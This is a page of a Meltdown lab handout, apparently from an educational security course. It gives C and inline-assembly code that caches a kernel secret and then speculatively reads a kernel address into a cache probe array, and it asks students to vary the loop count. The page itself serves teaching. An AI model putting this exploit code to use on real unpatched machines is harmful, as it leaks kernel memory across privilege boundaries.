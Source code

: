 ```
// Open the /proc/secret_data virtual file.
int fd = open("/proc/secret_data", O_RDONLY);
if (fd < 0) {
perror("open");
return -1;
}

int ret = pread(fd, NULL, 0, 0); // Cause the secret data to be cached.
```

#### 6.3 Task 7.3: Using Assembly Code to Trigger Meltdown

You probably still cannot succeed in the previous task, even with secret data being cached by CPU. Let us do
one more improvement by adding a few lines of assembly instructions before the kernel memory access. See
the code in `meltdownasm()` below. The code basically do a loop for 400 times (see Line 1); inside the
loop, it simply add a number `0x141` to the `eax` register. This code basically does useless computations, but
according to a post discussion, these extra lines of code “give the algorithmic units something to chew while
memory access is being speculated” [1]. This is an important trick to increase the possibility of success.

- Listing 6:meltdownasm()

```
void meltdown_asm(unsigned long kernel_data_addr)
{
char kernel_data = 0;

// Give eax register something to do
asm volatile(
".rept 400;" // line 1
"add $0x141, %%eax;"
".endr;" // line 2
:
:
: "eax"
);

// The following statement will cause an exception
kernel_data = *(char*)kernel_data_addr;
array[kernel_data *4096 + DELTA] += 1;
}
```

Please call the `meltdownasm()` function, instead of the original `meltdown()` function. Describe
your observations. Increase and decrease the number of loops, and report your results.

## 7 Task 8: Make the Attack More Practical
